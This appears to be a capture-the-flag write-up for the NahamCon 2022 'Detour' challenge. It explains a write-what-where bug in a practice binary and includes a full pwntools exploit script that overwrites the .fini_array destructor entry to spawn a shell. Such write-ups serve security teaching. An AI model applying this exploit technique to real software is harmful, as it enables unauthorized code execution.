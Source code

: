 ```yaml
---
title:  "Detour"
date:  2022-05-01
draft:  false
enableToc:  false
description: "A write-what-where scenario that enables us to overwrite the destructor (dtor) in the relocations table with our win() function to get a shell."
tags:
- pwn
- NahamCTF22
image: "images/thumbnails/detour.png"
---
```


## Checksec
```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```
RelRO is completely disabled unlike any other challenge we have encountered, this means that we have write permessions to all the relocations.

## Exploitation
Running the binary will let us specify an address and a value and then It will assign that value to the adderss we provided.

```
hegz@pop-os$ ./detour
What: 1234
Where: 123123123213
Segmentation fault (core dumped)
```

I confirmed this by analyzing the binary in ghidra, below is the decompilation.

```c++
undefined8 main(void)

{
  long in_FS_OFFSET;
  size_t local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);

  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();

  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();

  *(size_t *)((long)&base + local_18) = local_20;

  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

This is the part responsible of the write-what-where.
```c
*(size_t *)((long)&base + local_18) = local_20;
```

It basically means that It will write the value we provide in `local_20` at the address we provide at `local_18` incremented by the address of `base`, this is important when crafting our exploit as we have to subtract the address of base from the address we provide to get the correct address in the binary.

We also have a function that will execute a shell in our binary.
```c++
void win(void)

{
  system("/bin/sh");
  return;
}
```

Now we only need to locate the address that we will be writing to in order to redirect execution to our win() function.

The GOT is one good attack vector but we don't call any libc function (except __stack_chk_fail) after our write-what-where, this means that overwriting the GOT is useless since the overwritten GOT entry will never be referenced anyway.

The less obvious attack vector is the global destructor for our program, this is possible due the fact that we have write permissions to the binary relocations.

The global destructor is a routine that gets called when our main function is exiting.

Here is the backtrace of the binary after successfully ovewrwriting the global destructor.

```c++
[#0] 0x7ffff7e5c6ea → __GI___wait4(pid=0xddb6b, stat_loc=0x7fffffffd8d8, options=0x0, usage=0x0)
[#1] 0x7ffff7e5c6ab → __GI___waitpid(pid=<optimized out>, stat_loc=0x7fffffffd8d8, options=0x0)
[#2] 0x7ffff7dc394b → do_system(line=<optimized out>)
[#3] 0x40121d → win()
[#4] 0x7ffff7fd9f03 → _dl_fini()
[#5] 0x7ffff7db84e5 → __run_exit_handlers(status=0x0, listp=0x7ffff7f8c818 <__exit_funcs>, run_list_atexit=0x1, run_dtors=0x1)
[#6] 0x7ffff7db8660 → __GI_exit(status=<optimized out>)
[#7] 0x7ffff7d9cfd7 → __libc_start_call_main(main=0x401220 <main>, argc=0x1, argv=0x7fffffffde88)
[#8] 0x7ffff7d9d07d → __libc_start_main_impl(main=0x401220 <main>, argc=0x1, argv=0x7fffffffde88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffde78)
[#9] 0x40111e → _start()
```

It is present in the .fini_array section under the symbol name `__do_global_dtors_aux_fini_array_entry`

Time to craft our exploit.

```python
from pwn import *

context.binary = e = ELF("./detour")
context.encoding = 'latin'

if args['REMOTE']:
    io = remote("challenge.nahamcon.com", 32149)
elif args['GDB']:
    # Breaks at RTN instruction.
    io = gdb.debug(context.binary.path, f"""
    b *main+143
""")
else:
    io = e.process()

what = str(e.symbols.win)
where = str(e.sym.__do_global_dtors_aux_fini_array_entry - e.sym.base)
info(f"Overwriting: {where} with {what}")

io.clean(1)
io.sendline(what)
io.clean(1)
io.sendline(where)
io.interactive()
```

<center>

![](/images/mc/ach_shell.png)

</center>
